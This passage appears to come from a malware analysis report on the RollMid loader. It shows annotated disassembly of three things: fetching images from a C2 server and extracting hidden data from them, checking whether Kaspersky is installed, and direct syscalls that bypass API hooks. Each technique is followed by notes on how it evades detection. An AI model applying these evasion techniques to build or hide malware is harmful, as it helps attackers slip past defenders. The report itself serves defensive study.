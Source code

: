 ## 6. Steganography

### Implementation Details

The RollMid loader retrieves images from the C2 server and extracts hidden data:

```assembly
push    [ebp+var_4]             ; C2 server address
call    GetImageFromUrl         ; Download image from C2
add     esp, 4                  ; Clean up stack
mov     esi, eax                ; esi = image data
test    esi, esi                ; Check if download succeeded
jz      loc_405E90              ; If failed, exit
push    esi                     ; Push image data
call    ExtractHiddenData       ; Extract hidden data from image
add     esp, 4                  ; Clean up stack
mov     edi, eax                ; edi = extracted data
```

### Evasion Impact

1. **Hides C2 Communication**: Data hidden in images is difficult to detect through network monitoring.
2. **Bypasses Content Filters**: Image downloads are typically allowed by network security policies.
3. **Complicates Traffic Analysis**: Without knowledge of the steganography technique, analysts cannot extract the hidden commands.

## 7. Anti-Analysis Techniques

### Implementation Details

The malware checks for specific security products:

```assembly
push    offset aKaspersky       ; "Kaspersky"
call    CheckSecurityProduct    ; Check if Kaspersky is installed
add     esp, 4                  ; Clean up stack
test    eax, eax                ; Check result
jz      short loc_401150        ; If not installed, take alternative path
```

It also uses direct syscalls to bypass user-mode API hooks:

```assembly
mov     eax, 0C2h               ; NtCreateThreadEx syscall number
mov     r10, rcx                ; Set up parameters for syscall
syscall                         ; Execute syscall directly
ret                             ; Return
```

### Evasion Impact
